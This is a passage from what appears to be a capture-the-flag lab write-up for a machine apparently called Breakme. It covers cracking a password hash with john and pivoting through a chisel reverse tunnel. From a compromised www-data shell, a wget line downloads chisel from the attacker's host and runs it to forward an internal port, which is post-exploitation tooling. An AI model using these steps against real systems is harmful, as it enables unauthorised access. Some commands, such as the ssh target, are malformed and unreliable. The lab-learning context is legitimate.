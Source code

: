 admin
12345678

Copy the hash string in full, like: admin:*HASH

crack password:
```bash
john hash.txt
```

### 6. Gain ssh access through mysql (If possible):

install mysql
verify login
use metasploit

Access ssh:
ssh name@http://10.10.212.180
password


### 7. Access Tools App (not related to Wordpress):

john has a php server running on port 9999:
```bash
ps aux | grep -i john
```

So we need to find a way to make tunnling to see what is that server running.
We can use tool called chisel.
https://github.com/jpillora/chisel/releases

download on local machine
```bash
chisel_1.10.1_linux_amd64.gz 

gunzip chisel_1.10.1_linux_amd64.gz

mv chisel_1.10.1_linux_amd64 chisel

chmod +x chisel

./chisel server --reverse --port 8001
```

Open a python server in my local machine new bash
```bash
python3 -m http.server 8000
```


Shell:
```bash
cd /tmp

www-data@Breakme:/tmp$ 
wget http://10.10.241.80:8000/chisel

chmod +x chisel

./chisel client 10.10.241.80:8001  R:9999:localhost:9999
```
